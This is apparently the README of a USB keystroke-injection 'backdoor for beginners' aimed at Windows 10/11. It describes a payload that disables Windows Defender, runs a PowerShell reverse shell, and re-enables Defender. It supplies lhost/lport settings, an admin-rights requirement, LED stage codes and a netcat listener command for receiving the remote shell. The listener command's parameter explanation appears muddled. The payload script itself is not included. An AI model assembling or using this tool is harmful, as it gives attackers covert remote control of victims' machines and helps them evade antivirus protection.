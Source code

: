 # Title:      
 Simple Backdoor for beginners
## Description
* 1. script deactivates Windows Defender
* 2. script runs the powershell script
* 3. script activates Windows Defender
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script

## Configuration
You just need to change lhost and lport
lhost = your IP adress
lport = the port you want to use for the Backdoor. I recommend ssh (22).

## NetCat Command
     stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
rhost = the target
rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Double       | activate defender Stage                |
| Green               | Finished                               |
